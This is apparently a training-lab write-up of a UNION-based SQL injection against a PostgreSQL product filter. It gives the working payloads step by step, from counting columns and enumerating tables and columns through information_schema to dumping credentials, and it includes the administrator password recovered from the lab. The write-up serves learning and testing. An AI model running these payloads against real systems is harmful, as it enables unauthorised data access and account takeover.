The application's product filter functionality is vulnerable to SQL injection via the category parameter. The backend database is PostgreSQL. By chaining multiple UNION-based injection steps, an attacker can enumerate the database schema using the information_schema views and ultimately extract credentials from application tables.
PostgreSQL exposes information_schema.tables and information_schema.columns system views that list all user-accessible tables and their columns respectively. These views are standard across non-Oracle databases (PostgreSQL, MySQL, MSSQL) and are a key reconnaissance tool during SQL injection exploitation.
🎯 End Goals
Determine the table that contains usernames and passwords
Determine the relevant columns
Output the content of the table
Login as the administrator user
🪜 Steps to Reproduce
Identify the injectable category parameter in the product filter
Determine the number of columns returned using UNION SELECT NULL payloads
Confirm both columns accept string data types
Identify the database type using version()
Enumerate tables using information_schema.tables
Enumerate columns of the target table using information_schema.columns
Dump credentials from the target table
Log in as administrator
🧠 Analysis
Step 1 — Determine number of columns
Injected ' UNION SELECT NULL-- → HTTP 500. Injected ' UNION SELECT NULL,NULL-- → HTTP 200, confirming 2 columns.



Step 2 — Confirm column data types
Injected ' UNION SELECT 'a',NULL-- → HTTP 200, confirming column 1 accepts string type. Injected ' UNION SELECT NULL,'a'-- → HTTP 200, confirming both columns accept string type.
Step 3 — Identify the database version
Injected ' UNION SELECT @@version,NULL-- → HTTP 500, ruling out MySQL/MSSQL. Injected ' UNION SELECT version(),NULL-- → HTTP 200, confirming PostgreSQL 12.22.


Step 4 — List tables via information_schema
Researched information_schema.tables in PostgreSQL docs to confirm column name. Injected ' UNION SELECT table_name,NULL FROM information_schema.tables-- → full table list returned. Found target table: users_kddpid.





Step 5 — List columns of the target table
Researched information_schema.columns in PostgreSQL docs. Injected ' UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_name='users_kddpid'-- → returned username_ubwajt, password_nwnpg.



Step 6 — Dump credentials and login
Injected ' UNION SELECT username_ubwajt,password_nwnpg FROM users_kddpid-- → returned all credentials including administrator : grb0dhjdtfc3b8sl8cs. Logged in as administrator → lab solved.


🎯 Impact
An attacker can fully compromise the application by chaining UNION-based SQL injection with information_schema enumeration. Starting from a single injectable parameter, the attacker can: identify all database tables, retrieve column names for any table, and dump plaintext credentials. In this lab, administrator credentials were retrieved and used to gain full authenticated access to the application. This represents complete application-level compromise.